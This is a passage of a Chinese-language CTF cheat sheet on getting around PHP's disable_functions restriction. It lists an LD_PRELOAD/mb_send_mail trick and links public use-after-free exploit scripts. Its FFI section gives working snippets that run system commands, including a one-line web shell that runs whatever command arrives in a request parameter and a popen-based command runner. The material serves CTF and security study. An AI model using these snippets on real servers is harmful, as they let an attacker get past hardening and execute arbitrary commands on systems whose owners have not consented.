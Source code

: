 - 函数替代：mail() -> mb_send_mail()

- 参考

  [利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令](https://wooyun.js.org/drops/利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令.html)

  [RCTF 2022 - filechecker-pro-max](https://pankas.top/2022/12/12/rctf-web/#filechecker-pro-max)

- **UAF**

  **[php7-gc-bypass](https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass/exploit.php)**，**[php7-backtrace-bypass](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)**，**[php-json-bypass](https://github.com/mm0r1/exploits/blob/master/php-json-bypass/exploit.php)**

  法1：修改`pwn()`传入的`cmd`，上传php至可写目录，include包含执行。

  法2：无需上传，将代码放入`eval`函数执行。

  - 参考题

    buuoj-GKCTF2020-CheckIn

- **FFI**

  使用条件：PHP版本>=7.4

  复制

  ```
  $ffi = FFI::cdef("int system(const char *command);"); 
  $ffi->system("cd /;./readflag > /var/www/html/good.txt"); 
  readgzfile("good.txt");
  ```

  复制

  ```
  //直接调用php源码中的函数，php_exec的type为3时对应的是passthru，直接将结果原始输出
  $e=FFI::cdef("int php_exec(int type, char *cmd);");
  $e->php_exec(3,$_REQUEST['cmd']);
  ```

  复制

  ```
  //使用c里的popen，然后从管道中读取结果
  $ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");
  $o = $ffi->popen("ls /","r");
  $d = "";
  while(($c = $ffi->fgetc($o)) != -1){
      $d .= str_pad(strval(dechex($c)),2,"0",0);
  }
  $ffi->pclose($o);
  echo hex2bin($d);/*
  ```

- 参考

  [PHP 突破 disable_functions 常用姿势以及使用 Fuzz 挖掘含内部系统调用的函数](https://www.anquanke.com/post/id/197745)

